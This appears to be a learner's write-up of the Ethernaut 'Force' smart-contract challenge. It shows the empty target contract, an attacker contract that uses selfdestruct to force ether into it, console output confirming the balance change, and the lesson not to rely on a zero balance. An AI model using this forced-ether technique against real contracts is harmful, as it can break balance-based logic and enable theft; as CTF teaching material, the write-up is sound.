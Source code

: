 

### 7. Force

Some contracts will simply not take your money ¯\_(ツ)_/¯

The goal of this level is to make the balance of the contract greater than zero.

  Things that might help:

- Fallback methods

- Sometimes the best way to attack a contract is with another contract.

- See the Help page above, section "Beyond the console"

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```
//make AttackFile
```solidity
/ForceAttack.sol

// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract ForceAttack {
    constructor() public payable {

    }
 
    function attack(address payable _constractAddr) public {//errorが出たのでpayableはoriginal 
        selfdestruct(_constractAddr);
    }
}
```

ref: https://ethereum.stackexchange.com/questions/68059/invalid-implicit-conversion-from-address-to-address-payable-requested

```
await getBalance(contract.address)
'0'
contract.address
'0x58dc2d03B86410ed60cCdD453E568f3198EBAc7a'
```

//ether送金完了
```
await getBalance(contract.address)
'1'
```


In solidity, for a contract to be able to receive ether, the fallback function must be marked payable.

However, there is no way to stop an attacker from sending ether to a contract by self destroying. 

Hence, it is important not to count on the invariant address(this).balance == 0 for any contract logic.

















